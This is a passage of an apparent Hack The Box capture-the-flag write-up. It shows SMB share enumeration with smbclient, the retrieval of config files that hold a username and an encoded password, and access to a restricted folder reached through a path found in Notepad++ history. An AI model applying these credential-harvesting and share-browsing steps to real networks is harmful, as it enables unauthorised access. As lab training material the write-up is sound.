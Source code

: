   <Port>389</Port>                                                                                                                                                                                                                         
  <Username>c.smith</Username>                                                                                       
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
{% endhighlight %}

{% highlight bash linenos %}
smb: \IT\Configs\NotepadPlusPlus\> ls
  .                                   D        0  Wed Aug  7 14:31:37 2019
  ..                                  D        0  Wed Aug  7 14:31:37 2019
  config.xml                          A     6451  Wed Aug  7 18:01:25 2019
  shortcuts.xml                       A     2108  Wed Aug  7 14:30:27 2019

                10485247 blocks of size 4096. 6449935 blocks available
smb: \IT\Configs\NotepadPlusPlus\> get config.xml 
getting file \IT\Configs\NotepadPlusPlus\config.xml of size 6451 as config.xml (37.5 KiloBytes/sec) (average 23.4 KiloBytes/sec)


root@hax0r:~# cat config.xml
...
<History nbMaxFile="15" inSubMenu="no" customLength="-1">
        <File filename="C:\windows\System32\drivers\etc\hosts" />
        <File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
        <File filename="C:\Users\C.Smith\Desktop\todo.txt" />
    </History>
...
{% endhighlight %}

Neither of these looked like much at first, but there is relevant and important information. FIrst off, we have a username and password from the `RU_config.xml`. The second can be easily missed, and this is the second `File filename` variable in `config.xml`. I can see that in the network share `Secure$`, there is a `Carl` directory within the `IT` directory. In the `RU_config.xml`, there is a `c.smith` password, can this be Carl!?

I logged in and attempted to see if I could get to the `Carl` directory:

{% highlight bash linenos %}
smbclient \\\\10.10.10.178\\Secure$ -U TempUser                                                       
Enter WORKGROUP\TempUser's password: welcome2019
Try "help" to get a list of possible commands.                                                                       
smb: \> dir                                                                                                          
  .                                   D        0  Wed Aug  7 18:08:12 2019
  ..                                  D        0  Wed Aug  7 18:08:12 2019                                           
  Finance                             D        0  Wed Aug  7 14:40:13 2019
  HR                                  D        0  Wed Aug  7 18:08:11 2019                                                                                                                                                                 
  IT                                  D        0  Thu Aug  8 05:59:25 2019             
                                                                                                                     
                10485247 blocks of size 4096. 6449738 blocks available                                               
smb: \> cd IT                                                                                                        
smb: \IT\> dir                                                                                                       
NT_STATUS_ACCESS_DENIED listing \IT\*                                                                                
smb: \IT\> cd Carl                                                                                                   
smb: \IT\Carl\> dir                                                                                                  
  .                                   D        0  Wed Aug  7 14:42:14 2019
  ..                                  D        0  Wed Aug  7 14:42:14 2019
  Docs                                D        0  Wed Aug  7 14:44:00 2019
  Reports                             D        0  Tue Aug  6 08:45:40 2019
  VB Projects                         D        0  Tue Aug  6 09:41:55 2019
{% endhighlight %}
  